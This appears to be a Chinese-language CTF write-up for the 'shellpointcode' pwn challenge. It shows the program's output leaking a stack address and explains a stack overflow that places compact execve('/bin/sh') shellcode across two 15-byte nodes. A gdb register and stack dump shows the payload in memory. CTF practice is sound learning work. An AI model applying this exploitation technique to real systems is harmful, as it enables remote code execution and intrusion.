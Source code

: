 很明显的让你写shellcode的题目，简单的审计和运行过一遍程序后发现他是一个有两个节点链表结构，并且每个节点输入最多为15byte，并且在node.next泄露出了栈上的地址，对于完整shellcode来说15字节一般是不够的

```bash
➜  shellpointcode ./shellpointcode
Linked lists are great!
They let you chain pieces of data together.

(15 bytes) Text for node 1:  
aaaa
(15 bytes) Text for node 2:
bbbb
node1:
node.next: 0x7ffd53539c70
node.buffer: aaaa

What are your initials?
111
Thanks 111
```

简单分析调试后可以得到栈溢出后8byte后即为返回地址，我们在写完ret地址后接着写入‘/bin/sh’可以达到在开始执行shellcode时rsp里存放的是指向/bin/sh的指针，那么便可以利用mov rdi,rsp使‘/bin/sh\0’作为execve的参数来调用execve('/bin/sh')来getshell

```bash
[----------------------------------registers-----------------------------------]
RAX: 0x19
RBX: 0x0
RCX: 0x7f1f405832c0 (<__write_nocancel+7>:  cmp    rax,0xfffffffffffff001)
RDX: 0x7f1f40852780 --> 0x0
RSI: 0x7ffea8fdff90 ("Thanks ", 'a' <repeats 11 times>, "h&\376\250\376\177\n\nnode.buffer: H\211\347j;X1\366\231\017\005\n\n")
RDI: 0x1
RBP: 0x6161616161616161 ('aaaaaaaa')
RSP: 0x7ffea8fe2638 --> 0x7ffea8fe2668 --> 0xf631583b6ae78948
RIP: 0x55d7207d08ee (ret)
R8 : 0x7f1f40a5e700 (0x00007f1f40a5e700)
R9 : 0x19
R10: 0x11
R11: 0x246
R12: 0x55d7207d0720 (xor    ebp,ebp)
R13: 0x7ffea8fe2770 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x55d7207d08e7:  call   0x55d7207d06d0
   0x55d7207d08ec:  nop
   0x55d7207d08ed:  leave  
=> 0x55d7207d08ee:  ret    
   0x55d7207d08ef:  push   rbp
   0x55d7207d08f0:  mov    rbp,rsp
   0x55d7207d08f3:  sub    rsp,0x40
   0x55d7207d08f7:  lea    rax,[rbp-0x40]
[------------------------------------stack-------------------------------------]
0000| 0x7ffea8fe2638 --> 0x7ffea8fe2668 --> 0xf631583b6ae78948
0008| 0x7ffea8fe2640 --> 0x68732f6e69622f ('/bin/sh')
0016| 0x7ffea8fe2648 --> 0xa ('\n')
0024| 0x7ffea8fe2650 --> 0x0
0032| 0x7ffea8fe2658 --> 0x7f1f40851620 --> 0xfbad2887
0040| 0x7ffea8fe2660 --> 0x7ffea8fe2640 --> 0x68732f6e69622f ('/bin/sh')
0048| 0x7ffea8fe2668 --> 0xf631583b6ae78948
0056| 0x7ffea8fe2670 --> 0xa050f99
[------------------------------------------------------------------------------] blue
Legend: code, data, rodata, value
```